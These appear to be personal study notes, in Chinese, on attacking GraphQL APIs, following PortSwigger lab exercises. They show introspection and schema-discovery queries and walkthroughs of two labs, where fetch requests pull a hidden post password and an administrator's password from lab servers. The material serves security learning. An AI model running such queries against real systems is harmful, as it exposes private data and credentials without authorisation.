


## Universal queries

https://portswigger.net/web-security/graphql#universal-queries

<!-- 可以用犀牛盾測試 -->

Request

```js
fetch("https://example.com/api", {
  headers: {
    "content-type": "application/json",
  },
  body: JSON.stringify({
    query: "query{__typename}",
  }),
  method: "POST",
});
```

Response

```json
{ "data": { "__typename": "QueryRoot" } }
```

## Common endpoint names

https://portswigger.net/web-security/graphql#common-endpoint-names

## Using introspection

- https://portswigger.net/web-security/graphql#using-introspection
- https://graphql.org/learn/introspection/

<!-- 可以用犀牛盾測試 -->

Request

```js
fetch("https://example.com/api", {
  headers: {
    "content-type": "application/json",
  },
  body: JSON.stringify({
    query: "{__schema{queryType{name}}}",
  }),
  method: "POST",
});
```

Response

```json
{ "data": { "__schema": { "queryType": { "name": "QueryRoot" } } } }
```

## Running a full introspection query

https://portswigger.net/web-security/graphql#running-a-full-introspection-query

<!-- 可以用犀牛盾測試 -->

Request

```js
const query = `
query IntrospectionQuery {
    __schema {
        queryType {
            name
        }
        mutationType {
            name
        }
        subscriptionType {
            name
        }
        types {
         ...FullType
        }
        directives {
            name
            description
            args {
                ...InputValue
        }
        onOperation  #Often needs to be deleted to run query
        onFragment   #Often needs to be deleted to run query
        onField      #Often needs to be deleted to run query
        }
    }
}

fragment FullType on __Type {
    kind
    name
    description
    fields(includeDeprecated: true) {
        name
        description
        args {
            ...InputValue
        }
        type {
            ...TypeRef
        }
        isDeprecated
        deprecationReason
    }
    inputFields {
        ...InputValue
    }
    interfaces {
        ...TypeRef
    }
    enumValues(includeDeprecated: true) {
        name
        description
        isDeprecated
        deprecationReason
    }
    possibleTypes {
        ...TypeRef
    }
}

fragment InputValue on __InputValue {
    name
    description
    type {
        ...TypeRef
    }
    defaultValue
}

fragment TypeRef on __Type {
    kind
    name
    ofType {
        kind
        name
        ofType {
            kind
            name
            ofType {
                kind
                name
            }
        }
    }
}`;
fetch("https://example.com/api", {
  headers: {
    "content-type": "application/json",
  },
  body: JSON.stringify({ query }),
  method: "POST",
});
```

Response 很大包，可以使用 [online 的 visualizer](http://nathanrandal.com/graphql-visualizer/)

## Suggestions

如果 [Introspection](#using-introspection) 被禁用，也可以透過 suggestions 來描繪出 graphql 的 schema，簡單講就是利用錯誤訊息

```
There is no entry for 'productInfo'. Did you mean 'productInformation' instead?
```

有專門的工具做這件事情 [Clairvoyance 千里眼](https://github.com/nikitastupin/clairvoyance)

不過如果 Server 有設定 [hideschemadetailsfromclienterrors](https://www.apollographql.com/docs/apollo-server/api/apollo-server#hideschemadetailsfromclienterrors)，那就無法提取 graphql 的 schema 了

## Lab: Accessing private GraphQL posts

| Dimension | Description                                                                    |
| --------- | ------------------------------------------------------------------------------ |
| Document  | https://portswigger.net/web-security/graphql#exploiting-unsanitized-arguments  |
| Lab       | https://portswigger.net/web-security/graphql/lab-graphql-reading-private-posts |

進入首頁會戳

```js
const query = `
query getBlogSummaries {
    getAllBlogPosts {
        image
        title
        summary
        id
    }
}`;
fetch(
  "https://0adf007d042cd25e83bdb91b000100f7.web-security-academy.net/graphql/v1",
  {
    headers: {
      "content-type": "application/json",
    },
    body: JSON.stringify({
      query: query,
      operationName: "getBlogSummaries",
    }),
    method: "POST",
  },
);
```

回傳

```json
{
  "data": {
    "getAllBlogPosts": [
      {
        "image": "/image/blog/posts/55.jpg",
        "title": "I'm At A Loss Without It - Leaving Your Smartphone Behind",
        "summary": "The other day I left my purse in a friend's car. This led to the most disturbing 19 hours of my life until it was returned to me.",
        "id": 1
      },
      {
        "image": "/image/blog/posts/10.jpg",
        "title": "I'm A Photoshopped Girl Living In A Photoshopped World",
        "summary": "I don't know what I look like anymore. I never use a mirror, I just look at selfies and use the mirror App on my cell. The mirror App is cool, I always look amazing, and I can change my...",
        "id": 4
      },
      {
        "image": "/image/blog/posts/59.jpg",
        "title": "Festivals",
        "summary": "Reminiscing about festivals is a lot like reminiscing about university. In your head there's those wild party nights, meeting cool new people and the great experience of being away from home. Very similar to the buzz about going to a...",
        "id": 5
      },
      {
        "image": "/image/blog/posts/5.jpg",
        "title": "Do You Speak English?",
        "summary": "It mega hurts me to admit this, but sometimes I have no idea what people are talking about. The language of youth and the language of the technical world leaves me completely stumped. Young people talk in abbreviations and use...",
        "id": 2
      }
    ]
  }
}
```

用 [Running a full introspection query](#running-a-full-introspection-query) 的技巧，提取 graphql 的 schema



構造

```js
const query = `
query customOperationName {
    getBlogPost(id: 3) {
        postPassword
    }
}`;
fetch(`${location.origin}/graphql/v1`, {
  headers: {
    "content-type": "application/json",
  },
  body: JSON.stringify({
    query: query,
    operationName: "customOperationName",
  }),
  method: "POST",
});
```

回傳

```json
{
  "data": {
    "getBlogPost": {
      "postPassword": "c5ox1hr2niz28a5toezuvaxtaj3w2uob"
    }
  }
}
```

詳細 Request 格式可參考官方文件 [`POST` request and body](https://graphql.org/learn/serving-over-http/#post-request-and-body)

## Lab: Accidental exposure of private GraphQL fields

| Dimension | Description                                                                        |
| --------- | ---------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/graphql#exploiting-unsanitized-arguments      |
| Lab       | https://portswigger.net/web-security/graphql/lab-graphql-accidental-field-exposure |

跟上一題一樣，用 [Running a full introspection query](#running-a-full-introspection-query) 的技巧，提取 graphql 的 schema



嘗試

```js
const query = `
query {
    getUser(id: 1) {
        username
        password
    }
}`;
fetch(`${location.origin}/graphql/v1`, {
  headers: {
    "content-type": "application/json",
  },
  body: JSON.stringify({
    query,
  }),
  method: "POST",
});
```

回傳

```json
{
  "data": {
    "getUser": {
      "username": "administrator",
      "password": "vjk7hp3j6kbwz8ivtmqz"
    }
  }
}
```

## 參考資料

- https://portswigger.net/web-security/graphql
